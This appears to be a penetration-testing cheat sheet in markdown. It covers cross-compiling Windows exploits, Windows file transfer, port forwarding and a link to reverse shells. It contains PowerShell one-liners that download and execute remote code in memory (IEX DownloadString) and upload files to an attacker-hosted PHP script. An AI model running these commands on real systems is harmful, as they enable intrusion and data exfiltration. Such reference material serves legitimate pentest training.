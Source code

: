 # Miscelaneous

#### :red_circle: Usefull Regex

##### Find subdomains in a tect file (html usually):

```bash

grep -o '[^/]*\.$DOMAIN\.com' $FILE
#-o  returns the string defined in our regular expression
```
##### Create symbolik link:

```bash
ln -s $TARGET $LINKNAME
```

_____
## Compiling exploits

There are times that we are on Linux and some exploits needs to compile from a Windows machine (requieres dependencies). In this case, we can use a cross-compiler to help in the way:

```bash
#Install:
apt install mingw-w64

#Usage:
i686-w64-mingw32-gcc $EXPLOITFILENAME.c -o $OUTPUTNAME.exe
#In case of error, try adding the flag: -lws2_32
```

**Note:** It's always better to do it on it's own platform.

_____

## Package Python applications

Python code requieres an interpreter in order to execute it's instructions. This means we need python to be installed in a machine that we want to run a python script.

We can use **PyInstaller** which packages python applications into standalone executables for various OS.

_____

## Downloading files from Windows

#### Using Powershell one-liner:

```bash
powershell.exe (New-Object System.Net.WebClient).DownloadFile('$URLOFFILE', '$NEWFILENAME')
```

If we want to download and execute the same file but not saving it to the disk, use:

```bash
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('$URLOFFILE')
```

#### Using exe2hex & powershell

First of all, optimize the file we want to transfer by using upx:

```bash
upx -9 $FILE
```

Now use exe2hex to convert the file:

```bash
exe2hex -x $FILE -p $RESULTFILENAME.cmd
#This creates a script with .cmd extension
```

Now we only need to copy and paste the script into a Windows shell.

_____

## Windows Uploads

If we want to transfer files, in this case from Windows to linux, we can use some of the following techniques:

#### Hosting an uploads.php file

**Step 1:** Create the following php file on Kali:

```bash
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile) ?>
```

**Step 2:** Create the 'uploads' directory and set owner permissions to www-data:

```bash
mkdir /var/www/uploads && chown www-data: /var/www/uploads
```

**Step 3:** Upload the file executing the following command in a Windows cmd:

```bash
powershell (New-Object System.Net.WebClient).UploadFile('http://$IPADDRESS/uploads.php', '$FILETOUPLOAD')
```

_____

## Compiling exploits in windows

If a Windows client have Mingw-w64 pre-installed we can compile C/C++ codes. First, go to the mingw-w64/i686.../ directory and execute the ".bat" file that set up the PATH variable for the gcc executable.

Once done, we can use as in Linux to compile our exploits:

```bash
gcc $EXPLOITFILENAME -o $FINALNAME.exe
```

_____

## Reverse shells one-liner

[Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

_____

## Port Forwarding

RINETD is a tool that helps us to achieve port forwarding. Once this tool is installed we need to add the forwarding rules on the next file:

```bash
#file: /etc/rinetd.conf
#Add the following line under forwarding rules:
0.0.0.0 $PORT $IPADDRESS $PORT

#For example, forward any incoming web access to the 1.2.3.4 server:
0.0.0.0 80 1.2.3.4 80

#Once done, restart the service and watch if it's active:
sudo service rinetd restart
ss -antp | gre "$PORT"
```

_____

## SSH Tunneling
